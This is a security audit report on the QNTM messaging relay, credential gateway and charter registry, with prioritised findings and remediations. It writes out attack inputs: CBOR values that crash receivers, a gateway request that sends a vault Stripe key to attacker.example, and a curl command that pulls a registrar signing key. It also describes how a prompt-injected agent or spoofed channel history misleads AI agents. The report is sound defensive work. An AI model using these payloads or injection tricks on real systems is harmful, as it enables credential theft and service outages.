

# QNTM Full-Stack Security, Correctness & Hygiene Audit

**Date:** November 12, 2026  
**Audited Baseline:** `main` @ `1905a11` (`v0.9.4`, synced with `origin/main`)  
**Archived Working-Tree Snapshot:** `archive/wip-client-parity-2026-09-09` @ `9e6439a` (preserves the Sep 9 `0.6.1` attachment/group-bootstrap draft prior to fast-forwarding `main`; verified 100% superseded by `41d651a` / `v0.9.4`)  
**Mode:** Read-only code & configuration audit (zero tracked repository edits, zero Beads writes, zero live production probes)

> [!CAUTION]
> **Three net-new `P0` issues** cross core trust boundaries at `v0.9.4`:
> 1. **Unauthenticated Python OOM & permanent receive-cursor DoS** via unvalidated CBOR field types (`"msg_id": 10_000_000_000` or `"msg_id": "x"`) on `POST /v1/send`.
> 2. **Gateway vault credential exfiltration, rule-threshold bypass, and SSRF** due to unbound `target_url` / `target_endpoint` and a case-sensitive `verb` mismatch between `lookupThreshold` and `executeRequest`.
> 3. **Unauthenticated `GET http://127.0.0.1:9085/backup` on Charter Registry** streaming the unencrypted registrar Ed25519 private key (`seed`) across a host-networked Docker stack (where Grafana also binds `0.0.0.0:3000` with anonymous access enabled).

---

## 1. Architecture & Finding Map

---

## 2. Executive Summary Table (Net-New Findings Beyond Oct 30 Audit)

Known boundaries already tracked under the [Oct 30 charter release audit](2026-10-30-charter-release-audit.md) (`qntm-tdib`: `qntm-uqug`, `qntm-7vpy`, `qntm-n1cd`, `qntm-htnu`, `qntm-4xah`, `qntm-1ml2`, `qntm-esqm`, `qntm-3twp`) are separated in **Section 7** unless a concrete bypass of an Oct 30 remediation was proven.

| ID | Sev | Component | Summary |
|---|---|---|---|
| **P0-1** | **P0** | Python & TS Protocol | Unvalidated CBOR wire types/lengths (`bytes(int)` / `new Uint8Array(number)`) enable unauthenticated multi-GiB OOM and permanent receive-cursor bricking |
| **P0-2** | **P0** | `gateway-worker` / `gate` | Missing service host/origin allowlist, unbound `target_endpoint` vs `target_url`, and `verb` case differential allow 1-signer secret exfiltration, threshold bypass, and SSRF |
| **P0-3** | **P0** | `charter-registry` | Unauthenticated loopback `GET /backup` exposes raw registrar Ed25519 private key (`seed`) alongside host-networked containers & `0.0.0.0:3000` anonymous Grafana |
| **P1-1** | **P1** | Group / Gateway Auth | Undelegated `gov.applied` removes protected group creator in TS; non-creator promotion deadlocks all membership changes; creator-invited gateway skips vote proofs; AIM pre-genesis creator hijack |
| **P1-2** | **P1** | Python Receive & Rekey | Uncaught `CBORDecodeError` / `CryptoError` / `AttributeError` wedge Python receive; single-envelope `resolveRekeyCandidates` calls allow Byzantine `group_rekey` split-brain |
| **P1-3** | **P1** | Python CLI / Guidance / MCP | Unlocked stale-snapshot writes to `conversations.json` clobber concurrent `qntm recv --watch` key rotations |
| **P1-4** | **P1** | `ui/aim-chat` | Browser UI skips `receiveConversationEvent` & `verifyGatewayMessage` (spoofable cards, button-hiding vote spam, broken >1k history threshold) and defaults to `http://localhost:8080` on `chat.corpo.llc` |
| **P1-5** | **P1** | `worker` / `monitoring` / Nginx | DO WebSocket hibernation drops `pendingAuths`, broadcasts live frames before `auth_ok`; single IPv6 `/64` blacks out POP `/healthz`; public `MONITOR_CONVERSATION_ID` wedges monitor; global `3r/s` charter Nginx cap |
| **P1-6** | **P1** | `gateway-worker` / `gate` | Raw `{param}` path/query injection in `resolveRecipe` (plus UI preview mismatch), duplicate `request_id` client DoS (`Ambiguous workflow ID`), perpetual 5s DO alarms, and unbounded handshake replay |
| **P1-7** | **P1** | TUI, Adapters & CI/CD | `ui/tui` sidebar terminal escape injection; `openclaw-qntm` `public_key` vs `publicKey` breaks `member_add`; `channel/` prompt injection & stale pre-rekey keys; `nanoclaw-qntm` cursor loss; `v*-beta.*` tags deploy to production |
| **P2-1..10** | **P2** | Guidance, DID, Charter, CI, Docs | Corpo guidance >1000-frame `SendDeliveryUnknown` & UI route/WS sync bugs; DID small-order keys & quadratic Base58; TS unbounded charter HTTP read; JCS `>2^53` int poison; CBOR UTF-16 sort; `$` secret corruption; unpinned CI actions; `README.md` contradictions & `.gitignore` `.dev.vars` gaps |
| **P3-1..4** | **P3** | Attachments, UI, Repo Hygiene | Attachment RLO/Windows filename edge cases; `participants[0]` creator assumption in invite builder; AIM profile/backup polish; 13 stale `in_progress` Beads, 39/41 merged branches, 98-commit diverged branch, tracked `.company/` docs |

---

## 3. Critical Findings (`P0`)

### P0-1: Unauthenticated Remote Python OOM & Permanent Receive DoS via Unvalidated CBOR Wire Types
- **Locations:** [python-dist/src/qntm/message.py](../../python-dist/src/qntm/message.py#L152-L162), [python-dist/src/qntm/message.py](../../python-dist/src/qntm/message.py#L217-L260), [python-dist/src/qntm/cli.py](../../python-dist/src/qntm/cli.py#L1119-L1145), [python-dist/src/qntm/guidance_inbox.py](../../python-dist/src/qntm/guidance_inbox.py#L55-L58), [client/src/message/index.ts](../../client/src/message/index.ts#L212-L248), [client/src/gate/session.ts](../../client/src/gate/session.ts#L83), [client/src/group/control.ts](../../client/src/group/control.ts#L38)
- **Mechanics:**
  1. **Unauthenticated pre-crypto OOM & cursor brick in Python:** Relay `POST /v1/send` is unauthenticated and stores opaque CBOR blobs (`<= 64 KiB`). In Python, `validate_envelope` ([python-dist/src/qntm/message.py](../../python-dist/src/qntm/message.py#L217-L233)) validates `v`, `suite`, `created_ts`, `expiry_ts`, and `len(ciphertext) != 0`, **without verifying that `msg_id`, `conv_id`, `ciphertext`, or `aad_hash` are `bytes` (or exact 16/32-byte lengths)**.
     - Right after `try: ... deserialize_envelope(...) except Exception: continue` ([python-dist/src/qntm/cli.py](../../python-dist/src/qntm/cli.py#L1119-L1124)), line `1126` executes `msg_id_hex = bytes(envelope["msg_id"]).hex()` **outside any `try/except`**.
     - In Python, `bytes(int)` allocates a zero-filled buffer of size `int`. Posting a ~60-byte CBOR map with `"msg_id": 10_000_000_000` to any known `conv_id` (e.g., any published Corpo `conversation_id` in [python-dist/src/qntm/guidance_providers.json](../../python-dist/src/qntm/guidance_providers.json#L1-L41) or echo channel) triggers an immediate 10 GiB allocation (`MemoryError` / SIGKILL). Similarly, `"aad_hash": 10_000_000_000` hits `bytes(envelope["aad_hash"])` inside `decrypt_message` ([python-dist/src/qntm/message.py](../../python-dist/src/qntm/message.py#L152)) *before* AEAD verification, affecting direct SDK callers and `open_intake`.
     - Posting `"msg_id": "x"` or `"msg_id": -1` raises uncaught `TypeError` / `ValueError` at `cli.py:1126` before `_save_cursors`, permanently crashing `qntm recv`, killing `qntm recv --watch`, and breaking MCP `receive_messages` for the 7-day relay TTL.
  2. **Authenticated inner-payload OOM in Python & TypeScript:** Neither `validate_inner_payload` ([python-dist/src/qntm/message.py](../../python-dist/src/qntm/message.py#L245-L260)) nor `validateInnerPayload` ([client/src/message/index.ts](../../client/src/message/index.ts#L235-L248)) checks that `inner.body` is `bytes`/`Uint8Array` or `len(msg_id) == 16`. A peer or public-invite holder signing `inner.body = 1_000_000_000` triggers `bytes(1_000_000_000)` at `cli.py:1144` and `new Uint8Array(1_000_000_000)` at `session.ts:83` / `control.ts:38`.
- **Remediation:** Enforce strict runtime type and byte-length schemas inside `validate_envelope`/`validateEnvelope` (`isinstance(envelope, dict)`, `conv_id` = 16 bytes, `msg_id` = 16 bytes, `ciphertext` = `bytes` `1..65536`, optional `aad_hash` = 32 bytes, `conv_epoch` = non-negative safe `int`) and `validate_inner_payload`/`validateInnerPayload` (`sender_ik_pk` = 32 bytes, `sender_kid` = 16 bytes, `signature` = 64 bytes, `body` = `bytes`/`Uint8Array`, `body_type` = `str`).

### P0-2: Gateway Vault Credential Exfiltration, Rule-Threshold Bypass, and SSRF
- **Locations:** [gateway-worker/src/do.ts](../../gateway-worker/src/do.ts#L482-L554), [gateway-worker/src/do.ts](../../gateway-worker/src/do.ts#L758-L790), [gateway-worker/src/execute.ts](../../gateway-worker/src/execute.ts#L45-L96), [client/src/gate/index.ts](../../client/src/gate/index.ts#L161-L185), [client/src/gate/workflow-parse.ts](../../client/src/gate/workflow-parse.ts#L114-L140)
- **Mechanics:**
  1. **Cross-host secret exfiltration & HTTP downgrade:** `VaultEntry` stores `{ service, header_name, header_template, encrypted_value }` with **no allowed origin/hostname**, and `executeRequest` ([gateway-worker/src/execute.ts](../../gateway-worker/src/execute.ts#L82)) sends the decrypted vault credential to arbitrary `request.target_url`, returning 8 KiB of response body in `gate.result`. Because a requester's own signature counts as the first approval ([gateway-worker/src/scan.ts](../../gateway-worker/src/scan.ts#L114-L117)), in any conversation where `promotion_floor = 1` (e.g., allowing autonomous `GET` reads while gating writes at `m = 3`), a prompt-injected agent can submit `target_service: "stripe"`, `verb: "GET"`, `target_url: "https://attacker.example/echo"`, `required_approvals: 1` and **immediately exfiltrate the live Stripe API key with zero human approvals**.
  2. **Unbound `target_endpoint` bypasses endpoint rules:** `do.ts:535, 762` passes `msg.target_endpoint` to `lookupThreshold`, while `executeRequest` ignores `target_endpoint` and fetches `request.target_url`. Submitting `target_endpoint: "/safe"` with `target_url: "https://api.stripe.com/v1/charges"` bypasses `{ service: "stripe", endpoint: "/v1/charges", verb: "POST", m: 3 }`. (Conversely, `lookupThreshold` uses exact string equality `rule.endpoint !== endpoint`, so parameterized rule templates like `/item/{id}.json` never match resolved paths `/item/123.json`.)
  3. **Case-sensitive `verb` differential bypasses verb rules:** `do.ts` never calls `parseGatewayBody` (`workflow-parse.ts:130`). `lookupThreshold` ([client/src/gate/index.ts](../../client/src/gate/index.ts#L175)) checks `rule.verb !== verb` case-sensitively, whereas `executeRequest` ([gateway-worker/src/execute.ts](../../gateway-worker/src/execute.ts#L68)) normalizes `request.verb.toUpperCase()`. Submitting `verb: "post"` evades `{ verb: "POST", m: 3 }` while still executing an upstream `POST`.
  4. **SSRF on self-hosted `workerd`:** `target_url` enforces neither `https:` nor private/loopback/link-local/metadata IP blocks (`127.0.0.1`, `169.254.169.254`, RFC 1918, IPv6 ULA/link-local).
- **Remediation:** Bind every `vault:${service}` entry (and governed rules) to an explicit allowlist of `https://` origins; validate `GateRequestMessage` via `parseGatewayBody` (requiring uppercase HTTP verbs); parse and canonicalize `new URL(request.target_url)` (rejecting credentials, dot-segments, non-HTTPS schemes, and private/metadata IPs) and enforce exact path/pattern agreement with `target_endpoint`.

### P0-3: Unauthenticated Loopback `GET /backup` Exposes Registrar Signing Private Key (`seed`) + Anonymous Public Grafana
- **Locations:** [charter-registry/operations.go](../../charter-registry/operations.go#L115-L128), [charter-registry/store.go](../../charter-registry/store.go#L148-L155), [charter-registry/deploy/qntm-charter.service](../../charter-registry/deploy/qntm-charter.service#L9), [charter-registry/deploy/compose.yml](../../charter-registry/deploy/compose.yml#L1-L62), [charter-registry/deploy/backup.sh](../../charter-registry/deploy/backup.sh#L9-L11)
- **Mechanics:**
  - `AdminHandler()` ([charter-registry/operations.go](../../charter-registry/operations.go#L120-L126)) serves **unauthenticated** `GET /backup` on `127.0.0.1:9085`, streaming a full copy of `registry.db`—which stores the registrar's unencrypted Ed25519 root private key (`seed` in the `meta` bucket, [charter-registry/store.go](../../charter-registry/store.go#L151)).
  - In [charter-registry/deploy/compose.yml](../../charter-registry/deploy/compose.yml#L4-L55), `prometheus`, `grafana`, `node-exporter`, and `blackbox` all run with `network_mode: host` alongside `nginx` (`www-data`). Any local user, SSRF in the monitoring stack, or compromised non-root service can `curl http://127.0.0.1:9085/backup` to steal the registrar's signing key, defeating `0700` filesystem isolation.
  - Compounding exposure, `grafana` ([charter-registry/deploy/compose.yml](../../charter-registry/deploy/compose.yml#L19-L23)) binds `GF_SERVER_HTTP_ADDR: 0.0.0.0` with `GF_AUTH_ANONYMOUS_ENABLED: 'true'` (`Viewer` role, exposing unauthenticated PromQL proxy queries against Prometheus/Node Exporter on any VM without external TCP 3000 firewalling).
  - Additionally, `/backup` omits `Content-Length: strconv.FormatInt(tx.Size(), 10)` and `backup.sh:9-11` checks only `test -s "$tmp"`, so a truncated transfer can overwrite a valid backup snapshot.
- **Remediation:** Remove `/backup` from the TCP metrics listener (use a `0600` Unix domain socket or local CLI snapshot command, or require a bearer secret); bind Grafana to `127.0.0.1` and disable anonymous auth; set `Content-Length` and validate bbolt integrity in `backup.sh` before `mv`.

---

## 4. High-Priority Findings (`P1`)

### P1-1: Group / Gateway Membership Authority Bypasses, Deadlock & Creator Hijack
- **Locations:** [client/src/gate/session.ts](../../client/src/gate/session.ts#L103-L141), [client/src/gate/session.ts](../../client/src/gate/session.ts#L158-L161), [gateway-worker/src/handshake.ts](../../gateway-worker/src/handshake.ts#L98-L103), [gateway-worker/src/do.ts](../../gateway-worker/src/do.ts#L104), [python-dist/src/qntm/group_gateway.py](../../python-dist/src/qntm/group_gateway.py#L201-L236), [python-dist/src/qntm/group_session.py](../../python-dist/src/qntm/group_session.py#L56-L58), [ui/aim-chat/src/qntm.ts](../../ui/aim-chat/src/qntm.ts#L452-L468), [ui/aim-chat/src/qntm.ts](../../ui/aim-chat/src/qntm.ts#L556-L580)
- **Mechanics:**
  1. **Bypass of Oct 30 group-authority fix via `gov.applied` in TS (`session.ts:123-133, 158`):** Any ordinary group member can invite a gateway (`membershipAuthority = false` at `session.ts:103`). While `group_add`/`group_remove`/`group_rekey` check `state.gateway?.membershipAuthority`, `body.type === 'gov.applied'` mutates `state.participants` **without checking `membershipAuthority`**, **without verifying votes**, and **without protecting `creator`**. A rogue gateway invited by an ordinary member can post `gov.applied` (`member_remove: [creatorKid]`), triggering `state.removed = true` (`line 158`) and locking out the group creator in `GatewaySession`, TUI, and OpenClaw.
  2. **Permanent membership deadlock via honest gateway promotion:** When any non-creator group member promotes an honest gateway, `gateway-worker` sets `membership_authority = false` and rejects all governed `member_add`/`member_remove` proposals (`do.ts:104`), while TS (`session.ts:136`), AIM (`qntm.ts:577`), and Python (`group_session.py:57`) reject all standalone creator `group_*` controls once any gateway is active—making the non-creator promoter permanently unremovable.
  3. **Creator-invited gateway skips vote verification & erases secondary admins:** In Python `prepare_gateway_control` ([python-dist/src/qntm/group_gateway.py](../../python-dist/src/qntm/group_gateway.py#L205-L207)), `if delegate is not None: return delegate` returns before `_verified_votes`/`_approved_membership`, allowing a compromised creator-invited gateway to unilaterally add keys and rekey with zero participant approvals; in TS, `gate.accept` (`session.ts:121`) deletes `state.groupControl.roster`, stripping secondary admin roles; and for undelegated gateways, Python accepts vote-backed controls (`lines 208-236`, using wall-clock `time.time()` instead of `envelope['created_ts']`) while TS rejects them, causing epoch split-brain.
  4. **Pre-genesis creator hijack in Browser AIM (`qntm.ts:452-468, 557-576`):** Joining a group invite in AIM leaves `groupControl` `undefined`; if `gate.accept` arrives before `group_genesis`, line `558` overwrites `participants` in JSON key order while keeping `groupControl: undefined`, so the next group control (`line 576`) pins `participants[0]` (potentially a non-creator) as immutable `creator`.
- **Remediation:** Reject `gate.promote` in group conversations unless signed by a group administrator/creator across `gateway-worker`, TS, Python, and AIM; enforce `_approved_membership` vote proofs even for delegated gateways using deterministic `envelope.created_ts`; pin `groupControl.creator` on invite import in AIM; and block `gov.applied` membership mutations in group conversations unless accompanied by verified governed `group_*` controls.

### P1-2: Uncaught Python Receive Exceptions & Sequential `group_rekey` Split-Brain
- **Locations:** [python-dist/src/qntm/cli.py](../../python-dist/src/qntm/cli.py#L1148-L1204), [python-dist/src/qntm/group_session.py](../../python-dist/src/qntm/group_session.py#L54-L118), [python-dist/src/qntm/group_bootstrap.py](../../python-dist/src/qntm/group_bootstrap.py#L186-L188), [client/src/group-bootstrap/rekey.ts](../../client/src/group-bootstrap/rekey.ts#L40-L43)
- **Mechanics:**
  1. **Uncaught exceptions wedge Python receive:** Neither `cbor2.CBORDecodeError` nor `nacl.exceptions.CryptoError` inherits from `(ValueError, TypeError, KeyError)`. Sending `gate.accept` with `b"[]"` (`AttributeError` at `cli.py:1151`), `group_add` with `b"\xff"` (`CBORDecodeError` at `group_session.py:54` before admin checks), or `group_rekey` with a bad Poly1305 tag (`CryptoError` in `unwrap_key_for_recipient`) aborts `_process_received_messages_locked` before saving cursors, killing `recv --watch` and wedging `recv` / MCP.
  2. **Byzantine `group_rekey` split-brain:** `resolveRekeyCandidates` rejects corrupt per-recipient key wrappings when evaluated across a batch, **but** `cli.py:1194`, `aim-chat` (`qntm.ts:578`), and `openclaw-qntm` feed `[wire]` **one envelope at a time** and swallow exceptions without setting `recovery_required`. Any member can post `msg_id = 0x00..00` (valid `K1` for Alice, invalid wrap for Bob) followed by `msg_id = 0xff..ff` (valid `K2` for both): Alice adopts `K1` and ignores `K2`, while Bob drops `K1` and adopts `K2`.
- **Remediation:** Catch `(CBORDecodeError, CryptoError, AttributeError)` (normalizing to `ValueError`) in `group_session.py` / `cli.py`, check sender authority before decoding control bodies, and quarantine/mark `recovery_required` when an authorized current-epoch `group_rekey` fails recipient unwrapping.

### P1-3: Unlocked Stale-Snapshot Writes to `conversations.json` Clobber `recv --watch`
- **Locations:** [python-dist/src/qntm/cli.py](../../python-dist/src/qntm/cli.py#L2495-L2536), [python-dist/src/qntm/guidance.py](../../python-dist/src/qntm/guidance.py#L192), [python-dist/src/qntm/mcp_server.py](../../python-dist/src/qntm/mcp_server.py#L240), [python-dist/src/qntm/mcp_server.py](../../python-dist/src/qntm/mcp_server.py#L296)
- **Mechanics:** `_process_received_messages` serializes `conversations.json` updates under `receive.lock`, but `cmd_gate_promote` loads `conversations` before three network round-trips and saves the stale list at `cli.py:2535` without `receive.lock`—overwriting any concurrent `group_rekey` or `gate.promote` echo processed by `qntm recv --watch`. `_send_builtin` (`guidance.py:192`) and MCP `conversation_create`/`join` likewise write `conversations.json` unlocked.
- **Remediation:** Wrap all `conversations.json` read-modify-write mutations in a shared `private_lock(os.path.join(config_dir, "receive.lock"))` helper that reloads fresh disk state immediately before mutating.

### P1-4: Browser AIM (`ui/aim-chat`) Gateway Verification Gaps & Broken Default Gateway URL on `chat.corpo.llc`
- **Locations:** [ui/aim-chat/src/qntm.ts](../../ui/aim-chat/src/qntm.ts#L515-L600), [ui/aim-chat/src/qntm.ts](../../ui/aim-chat/src/qntm.ts#L817-L823), [ui/aim-chat/src/components/ChatPane.tsx](../../ui/aim-chat/src/components/ChatPane.tsx#L157-L235), [ui/aim-chat/src/components/GateCards.tsx](../../ui/aim-chat/src/components/GateCards.tsx#L38-L95), [ui/aim-chat/src/config.ts](../../ui/aim-chat/src/config.ts#L10-L17), [ui/aim-chat/public/_headers](../../ui/aim-chat/public/_headers#L2)
- **Mechanics:**
  1. **Unverified gateway/governance state & button-hiding DoS:** `applyReceivedEnvelope` (`qntm.ts:515`) omits `envelope.conv_epoch === conversation.currentEpoch` checks on non-group messages; permits any peer to inject `gate.executed`/`gate.result`/`gov.applied` cards before a gateway is active (`line 567`); never calls `verifyGatewayMessage` on votes; counts duplicate `gate.approval` messages from a single peer in `ChatPane.tsx:168-180` to force `thresholdMet = true` and **hide Approve/Deny buttons** (`GateCards.tsx:38, 82, 95`); falls back to `requiredApprovals = 0` once `gate.promote` ages past the 1,000-message history cap (`ChatPane.tsx:181-185`); and ignores `gov.applied` `member_add`/`member_remove` in `browserGatewayContext` (`qntm.ts:817-823`).
  2. **`chat.corpo.llc` defaults to `http://localhost:8080`:** `getDefaultGatewayUrl()` ([ui/aim-chat/src/config.ts](../../ui/aim-chat/src/config.ts#L12)) checks only `web.qntm.corpo.llc` and `*.pages.dev`, omitting `chat.corpo.llc` (while [ui/aim-chat/public/_headers](../../ui/aim-chat/public/_headers#L2) permits `http://localhost:*` in production CSP).
- **Remediation:** Migrate `ui/aim-chat` onto `@corpollc/qntm`'s `receiveConversationEvent` + `GatewaySessionState`, add `host === 'chat.corpo.llc'` to `getDefaultGatewayUrl()`, and remove `localhost`/`127.0.0.1` from production `_headers`.

### P1-5: Relay WebSocket Hibernation Bug, Rate-Limiter / Monitor DoS & Charter Nginx Bottleneck
- **Locations:** [worker/src/index.ts](../../worker/src/index.ts#L426-L523), [worker/src/index.ts](../../worker/src/index.ts#L613-L718), [worker/src/rate-limit.ts](../../worker/src/rate-limit.ts#L13-L32), [monitoring/relay_monitor.py](../../monitoring/relay_monitor.py#L101-L110), [charter-registry/deploy/nginx.conf](../../charter-registry/deploy/nginx.conf#L3-L17)
- **Mechanics:**
  1. **WebSocket hibernation & unauthenticated live broadcast:** `ConversationSequencerDO` calls `this.ctx.acceptWebSocket(server)` (`worker/src/index.ts:482`) and keeps `pendingAuths` in an in-memory `Map` (`line 462`). DO hibernation wipes `pendingAuths`, causing `auth_response` to be ignored; meanwhile `handlePublish` (`line 446`) broadcasts live frames to all `getWebSockets()` including unauthenticated `pendingAuths` sockets (delivering live frames before `auth_ok` and duplicating them in `replay`). Also note `webSocketClose` (`line 693`) still lacks a close-frame echo on `main` (tracked in `qntm-91yk`).
  2. **Relay memory/KV hazards:** `/v1/send` calls `request.json()` and `fromBase64` before enforcing `MAX_ENVELOPE_SIZE` (`lines 791, 816`); `MAX_MESSAGES_PER_CHANNEL` is dead config (never enforced); and `handlePublish` (`line 429`) writes an unread `QNTM_KV.put` key *after* incrementing `next_seq`, burning sequence numbers on KV errors.
  3. **Global POP blackout & 7-day monitor wedge:** `RelayRateLimiter` (`rate-limit.ts:29`) hard-fails all new IPs (including `/healthz`) once 10,000 exact IP strings accumulate in 60s—trivially exhausted from a single IPv6 `/64`. Separately, `MONITOR_CONVERSATION_ID` is public in `worker/wrangler.toml:34`, and `relay_monitor.py:101-110` aborts after 4,096 frames without advancing `state["cursor"]`, so 4,097 tiny messages wedge synthetic monitoring for 7 days.
  4. **Charter Nginx global `3r/s` cap:** `charter-registry/deploy/nginx.conf:3-4, 14-17` keys `limit_req_zone` (`3r/s`) and `limit_conn` (`20`) on constant `$server_name` across all endpoints including `/healthz`, letting 4 req/s from one client trigger global `429`s and false `CharterUnavailable` alerts.
- **Remediation:** Persist pending WebSocket auth state via `serializeAttachment` and filter unauthenticated sockets in `handlePublish`; bound HTTP body reads prior to `JSON.parse`, enforce `MAX_MESSAGES_PER_CHANNEL`, and drop the dead `QNTM_KV.put`; normalize IPv6 `/64` with LRU eviction in `RelayRateLimiter` and exempt `/healthz`; advance monitor cursor or authenticate probe channels; and separate `/healthz` + static routes from write rate limits in `nginx.conf`.

### P1-6: Gateway Recipe Injection, Duplicate Workflow ID Client DoS & Unbounded DO Resources
- **Locations:** [client/src/gate/index.ts](../../client/src/gate/index.ts#L230-L253), [python-dist/src/qntm/gate.py](../../python-dist/src/qntm/gate.py#L396-L415), [ui/aim-chat/src/App.tsx](../../ui/aim-chat/src/App.tsx#L127), [gateway-worker/src/do.ts](../../gateway-worker/src/do.ts#L286-L312), [gateway-worker/src/do.ts](../../gateway-worker/src/do.ts#L482-L563), [gateway-worker/src/handshake.ts](../../gateway-worker/src/handshake.ts#L80), [client/src/gate/workflow-history.ts](../../client/src/gate/workflow-history.ts#L36)
- **Mechanics:**
  1. **Raw `{param}` path/query injection & WYSIWYS mismatch:** `resolveRecipe` / `resolve_recipe` substitutes `{param}` and `${name}=${val}` without `encodeURIComponent` / `URLSearchParams` (allowing `../`, `?`, `#`, `&` injection), while `ui/aim-chat/src/App.tsx:127` previews the URL *with* `encodeURIComponent`, so human approvers see a different URL than is signed and executed.
  2. **Duplicate `request_id` / `proposal_id` blinds clients:** `gateway-worker` accepts duplicate IDs and executes the **first** stored request (`scan.ts:45`), whereas `workflow-history.ts:36` throws `Error('Ambiguous workflow ID')`, crashing client workflow views so participants cannot inspect or disapprove the pending request.
  3. **Immortal 5s DO alarms & unbounded handshake replay:** Unauthenticated `/v1/promote` starts an infinite 5s `setAlarm` loop (`do.ts:310`) with no idle hibernation, and `handshake.ts:80` calls `receiveMessages(conv.id, seq - 1)` without `maxMessages` or `timeoutMs` (disabling the 100 KB frame check in `DropboxClient.receiveMessages` at `client/src/dropbox/index.ts:331`).
- **Remediation:** URL-encode path segments (rejecting `.` / `..` / `/`) and use `URLSearchParams` in `resolveRecipe`/`resolve_recipe`; reject duplicate `request_id`/`proposal_id` and unknown-target votes in `do.ts`; pass bounded `maxMessages`/`timeoutMs` in `handshake.ts`; and back off/hibernate idle gateway DO alarms.

### P1-7: TUI Escape Injection, Adapter Defects (`openclaw`, `channel`, `nanoclaw`) & CI Prerelease Deploys
- **Locations:** [ui/tui/src/components/Sidebar.tsx](../../ui/tui/src/components/Sidebar.tsx#L108-L111), [openclaw-qntm/src/gateway-tool.ts](../../openclaw-qntm/src/gateway-tool.ts#L62), [channel/server.ts](../../channel/server.ts#L370-L376), [channel/server.ts](../../channel/server.ts#L518-L583), [nanoclaw-qntm/src/channels/qntm.ts](../../nanoclaw-qntm/src/channels/qntm.ts#L248-L257), [.github/workflows/deploy-aim.yml](../../.github/workflows/deploy-aim.yml#L5-L18), [.github/workflows/deploy-gateway.yml](../../.github/workflows/deploy-gateway.yml#L5-L18), [.github/workflows/deploy-worker.yml](../../.github/workflows/deploy-worker.yml#L5-L18), [.github/workflows/deploy-echo.yml](../../.github/workflows/deploy-echo.yml#L5-L18)
- **Mechanics:**
  1. **`ui/tui` terminal escape injection (`Sidebar.tsx:110`):** Renders `truncate(lastMsg.text, MAX_PREVIEW_LEN)` (and `conv.name` at line `78`) without `terminalText()`, allowing any background conversation peer to emit raw `ESC`/`OSC`/`CSI`/bidi sequences to the terminal.
  2. **`openclaw-qntm` `member_add` broken (`gateway-tool.ts:62`):** Prompt and README specify `{kid, public_key}` while `createProposalBody` (`client/src/governance/index.ts:167`) reads `m.publicKey`, throwing `GatewayValidationError` on every `member_add` proposal.
  3. **`channel/` (Claude MCP plugin) prompt injection & stale rekey keys (`channel/server.ts`):** `emitHistory` joins untrusted messages with raw `\n` (allowing `\n[time] you: ...` / `</channel>` spoofing); `convName` is interpolated unescaped into system `instructions` (`line 371`); `handleEnvelope` skips `conv_epoch` and `gate.*` authorship verification; and `qntm_reply` (`line 518`) never reloads `conversations.json` after CLI rekeys or checks removal.
  4. **`nanoclaw-qntm` permanent message loss & missing rekey/validation (`nanoclaw-qntm/src/channels/qntm.ts:248-257`):** Advances cursor unconditionally in `finally` on handler errors, never handles `group_rekey` or `validateIdentity()`, and carries **9 devDependency advisories** (2 critical in `vitest`/`tinypool`, 5 high in `vite`/`postcss`/`picomatch`/`nanoid`/`source-map-js`; runtime `--omit=dev` has 0).
  5. **Prerelease tags deploy to production (`deploy-{aim,echo,gateway,worker}.yml`):** All four workflows trigger on `tags: ["v*"]` without `!contains(github.ref_name, '-')`, so pushing `v0.9.5-beta.1` overwrites production Cloudflare workers and `chat.corpo.llc`.

---

## 5. Medium & Low Findings (`P2` / `P3`)

- **P2-1 — Corpo Guidance (`v0.9.1`–`v0.9.4`) Edge Cases:**
  - *Python >1000-frame intake reconciliation failure:* `_http_send` -> `_find_sent_envelope` ([python-dist/src/qntm/cli.py](../../python-dist/src/qntm/cli.py#L698-L728)) scans only `1000` frames from `from_seq=0`. Once the shared global Corpo intake conversation exceeds 1,000 messages, any HTTP drop raises `SendDeliveryUnknown`, skipping local history persistence ([python-dist/src/qntm/guidance.py](../../python-dist/src/qntm/guidance.py#L196-L198)) and crashing MCP `guidance_send` (`mcp_server.py:128` catches only `(ValueError, OSError)`).
  - *`open_intake` input hardening:* [python-dist/src/qntm/guidance_inbox.py](../../python-dist/src/qntm/guidance_inbox.py#L61-L70) leaks uncaught `CryptoError`/`CBORDecodeError` on malformed public traffic and allows lone UTF-16 surrogates via `json.loads`.
  - *Browser AIM live sync & routing:* Clicking **Open conversation** in [ui/aim-chat/src/App.tsx](../../ui/aim-chat/src/App.tsx#L1213) calls `selectConversation(id); navigate('/')` (immediately navigating away from `/c/${id}`), and `sendCorpoGuidance` ([ui/aim-chat/src/guidance-corpo.ts](../../ui/aim-chat/src/guidance-corpo.ts#L21-L34)) never refreshes `App.tsx`'s `conversations` state or WebSocket subscription until reload. Also `prepare_request`/`prepareGuidance` ignores group `excluded`/`needs_rekey` flags.
- **P2-2 — Python DID Resolver Gaps Beyond `qntm-htnu` ([python-dist/src/qntm/did.py](../../python-dist/src/qntm/did.py#L31-L71), [python-dist/src/qntm/did.py](../../python-dist/src/qntm/did.py#L100-L172), [python-dist/src/qntm/did.py](../../python-dist/src/qntm/did.py#L253-L274)):** Never calls `is_valid_ed25519_public_key` (accepts small-order keys); omits `len == 32` check on `publicKeyBase58`/`publicKeyJwk`; runs unbounded `O(N^2)` Base58 big-int decode on 256 KiB docs; raises uncaught `AttributeError`/`KeyError`/`InvalidURL` on valid W3C string VM refs or control chars; and allows percent-encoded IPv6 literals (`did:web:%5B%3A%3A1%5D`) past host checks.
- **P2-3 — MCP `conversation_join` Parity Gap ([python-dist/src/qntm/mcp_server.py](../../python-dist/src/qntm/mcp_server.py#L254-L303)):** Rejects `qntm.group.join` v1.2 current-epoch group invites and omits `inviter_key_id`, `inviter_public_key`, and `participant_keys.json` persistence on v1.0 joins.
